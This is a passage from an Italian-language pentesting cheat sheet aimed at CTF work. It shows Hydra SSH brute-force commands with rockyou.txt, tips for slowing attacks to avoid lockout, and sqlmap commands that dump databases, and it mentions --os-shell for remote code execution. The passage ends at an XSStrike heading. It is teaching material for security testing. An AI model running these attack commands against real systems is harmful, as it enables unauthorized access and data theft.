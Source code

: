 
### 💾 Comandi con salvataggio su file

```bash
# Salva risultati in formato leggibile
hydra -l admin -P rockyou.txt ssh://<target-ip> -o hydra_results.txt

# Aggiungi verbose per logging più dettagliato
hydra -l admin -P rockyou.txt ssh://<target-ip> -V -o hydra_verbose.txt
```

---

### ⚡ Tips & Trucchi

* Usa `-f` per fermarti al primo risultato valido (utile in CTF).
* Combina `-L` e `-P` per brute force completo utenti+password.
* Per evitare blocchi → rallenta il brute con `-W` (wait time) o riduci `-t`.
* Su HTTP, osserva sempre la **stringa di fail (`F=`)** o di successo (`S=`): se sbagli, Hydra darà falsi negativi.
* In alternativa ai form HTTP, puoi usare **Burp Intruder** se la logica del login è più complessa (token CSRF, parametri nascosti, JSON).

---

## 💉 sqlmap (SQL Injection)

**Perché usarlo:**
Automatizza la ricerca e lo sfruttamento di SQL Injection. Consente di estrarre database, tabelle e perfino eseguire comandi sul sistema.

**Opzioni principali:**

* `--dbs` → enumera database
* `--tables -D` → enumera tabelle di un DB
* `--dump -T -D` → estrae dati da una tabella specifica
* `--os-shell` → ottiene RCE se possibile

### 🔹 Comandi diretti

```bash
# Test e dump completo
sqlmap -u "http://<target-ip>/item.php?id=1" --batch --dump
```

### 💾 Salvataggio output

```bash
sqlmap -u "http://<target-ip>/item.php?id=1" --batch --dump --output-dir=sqlmap_results
```

---

## 🧨 XSStrike (XSS Testing)
